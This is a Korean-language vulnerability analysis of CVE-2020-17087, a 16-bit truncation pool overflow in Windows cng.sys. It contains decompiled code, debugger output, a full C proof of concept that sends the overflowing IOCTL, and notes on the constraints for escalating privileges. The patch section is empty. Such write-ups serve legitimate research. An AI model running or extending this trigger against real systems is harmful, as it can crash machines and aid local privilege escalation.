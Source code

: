 ```yaml
---
layout: post
author: "smlijun"
title: CVE-2020-17087-Windows pool buffer overflow in cng.sys IOCTL
---
```


[reference](https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2020/CVE-2020-17087.html) 

Introduction
---
Windows의 커널 암호화 드라이버인 `cng.sys`에서 발생한 buffer overflow 취약점 CVE-2020-17087을 분석하고 In the Wild에서 쓰였던 버그인 만큼 local privilege escalation까지 도달 할 수 있는 방법을 연구해보려고 한다. 분석은 `Windows 10 1909(OS build 18363.418)`에서 진행 하였다.

About CNG
---
[MSDN](https://docs.microsoft.com/en-us/windows/win32/seccng/about-cng)에 따르면 CNG는 기존의 `Cryto API`를 대체하기 위해서 만들어졌다고 한다. 또한 확장성이 좋게 설계 되었다고 한다. MSDN에서 여러 예제나 사용방법을 확인 할 수 있다.


The Vulnerability
---
bug class는 16-bit integer truncation로 인한 `buffer overflow`이다. 해당 취약점은은 IOCTL 0x390400 처리 중 `cng!CfgAdtpFormatPropertyBlock`에서 발생한다. 해당 루틴은 다음과 같은 call로 호출된다. 다른 드라이버들 처럼 IOCTL에 따라 dispatch하는 루틴을 쉽게 확인 할 수 있다.

`call stak`
```
1:cng!CfgAdtpFormatPropertyBlock
2:cng!CfgAdtReportFunctionPropertyOperation+0x23e
3:cng!BCryptSetContextFunctionProperty+0x3a2
4:cng!_ConfigurationFunctionIoHandler+0x3bd5c
5:cng!ConfigFunctionIoHandler+0x4e6
6:cng!ConfigIoHandler_Safeguarded+0xd2
7:cng!CngDeviceControl+0x97
8:cng!CngDispatch+0x8a
```
`cng!CfgAdtpFormatPropertyBlock code snippet`
```c
__int64 __fastcall CfgAdtpFormatPropertyBlock(char *SourceBuffer, unsigned __int16 buffersize, __int64 OutputBuffer)
{
 ....
  v3 = 0;
  v6 = SourceBuffer;
  if ( SourceBuffer && buffersize && OutputBuffer )
  {
    v7 = 6 * buffersize;
    v8 = BCryptAlloc((unsigned __int16)(6 * buffersize)); //[+] overflow here
    v9 = v8;
    if ( v8 )
    {
      v10 = (_WORD *)v8;
      if ( buffersize )
      {
        v11 = buffersize;
        do
        {
          *v10 = byte_1C009CE70[(unsigned __int64)(unsigned __int8)*v6 >> 4];
          v12 = v10 + 1;
          v13 = *v6++;
          *v12++ = byte_1C009CE70[v13 & 0xF];
          *v12 = 32;
          v10 = v12 + 1;
          --v11;
        }
        while ( v11 );
...
  return v3;
}
```
위 로직을 보면 `BcryptAlloc`에서 integer overflow가 발생한다. `buffer size`는 uint16 type으로 선언 되어있으나 `buffersize * 6`을 수행했을때 0x10002이나 타입이 uint16이므로 0x2만 남게된다. 아래는 디버깅 결과이다.
```
rax=0000000000005556 rbx=0000000000000000 rcx=0000000000000002
rdx=0000000000002aab rsi=ffffe105fd086958 rdi=0000000000000002
rip=fffff805705328ca rsp=ffffe105fd0868e0 rbp=0000000000002aab
 r8=ffffe105fd086958  r9=ffffe105fd086e60 r10=0000000000000004
r11=0000000000000000 r12=ffffa582fe1f9000 r13=ffffe105fd086ee0
r14=ffffa582fe1f9000 r15=ffffe105fd086eb8
iopl=0         ov up ei pl nz na pe cy
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040a03
cng!CfgAdtpFormatPropertyBlock+0x4e:
fffff805`705328ca e82105fbff      call    cng!BCryptAlloc (fffff805`704e2df0)
```
`BcryptoAlloc()`의 인자가 2로 세팅된것을 확인 할 수 있다.
추가적으로 overflow가 발생한 상황에서 우리가 원하는 값을 완전히 적을 수 없다. `do-while`로 감싸진 부분을 보면 `input buffer`로 들어온 값을 특정 연산을 수행한 후에 `output buffer`에 적는 것을 확인 할 수 있다.

PoC
---
```c
#pragma comment(lib, "ntdll")

#include <cstdio>
#include <windows.h>

int main() {
    HANDLE hCng = CreateFileA("\\\\.\\GLOBALROOT\\Device\\Cng",
        GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    if (hCng == NULL) {
        printf("[-] Failed to open \\Device\\Cng: %u\n", GetLastError());
        return 1;
    }

    printf("[+] \\Device\\Cng opened, handle: %p\n", hCng);

    CONST DWORD DataBufferSize = 0x2AAB;
    CONST DWORD IoctlSize = 4096 + DataBufferSize;
    BYTE* IoctlData = (BYTE*)HeapAlloc(GetProcessHeap(), 0, IoctlSize);

    RtlZeroMemory(IoctlData, IoctlSize);

    *(DWORD*)&IoctlData[0x00] = 0x1A2B3C4D;
    *(DWORD*)&IoctlData[0x04] = 0x10400;
    *(DWORD*)&IoctlData[0x08] = 1;
    *(ULONGLONG*)&IoctlData[0x10] = 0x100;
    *(DWORD*)&IoctlData[0x18] = 3;
    *(ULONGLONG*)&IoctlData[0x20] = 0x200;
    *(ULONGLONG*)&IoctlData[0x28] = 0x300;
    *(ULONGLONG*)&IoctlData[0x30] = 0x400;
    *(DWORD*)&IoctlData[0x38] = 0;
    *(ULONGLONG*)&IoctlData[0x40] = 0x500;
    *(ULONGLONG*)&IoctlData[0x48] = 0x600;
    *(DWORD*)&IoctlData[0x50] = DataBufferSize; // OVERFLOW
    *(ULONGLONG*)&IoctlData[0x58] = 0x1000;
    *(ULONGLONG*)&IoctlData[0x60] = 0;
    RtlCopyMemory(&IoctlData[0x200], L"FUNCTION", 0x12);
    RtlCopyMemory(&IoctlData[0x400], L"PROPERTY", 0x12);

    ULONG_PTR OutputBuffer = 0;
    DWORD BytesReturned;
    BOOL Status = DeviceIoControl(
        hCng,
        0x390400,
        IoctlData,
        IoctlSize,
        &OutputBuffer,
        sizeof(OutputBuffer),
        &BytesReturned,
        NULL
    );

    printf("[+] Ioctl sent, Status: %d, OutputBuffer: %zx\n", Status, OutputBuffer);

    HeapFree(GetProcessHeap(), 0, IoctlData);
    CloseHandle(hCng);

    return 0;
}
```

Exploit Condition
---
해당 취약점을 사용해서 exploit을 수행해기 위해서는 다음과 같은 제약 조건이 있다.
1. overflow는 0x10000~0x5FFFA byte만큼 덮어 쓸 수 있다.
2. overflow가 발생하는 buffer는 `NonPagedPoolNx`를 통해 할당되며 0x2~0xFFFF사이의 크기를 가진다.
3. 덮여 쓰여지는 값은 `XX 00 XX 00 20 00`의 형태를 가지며 XX는 0x30~0x39, 0x61~0x66의 범위를 가진다.
특히 3번조건이 exploit을 작성하는데 있어서 큰 제약사항이다. 

The patch
---

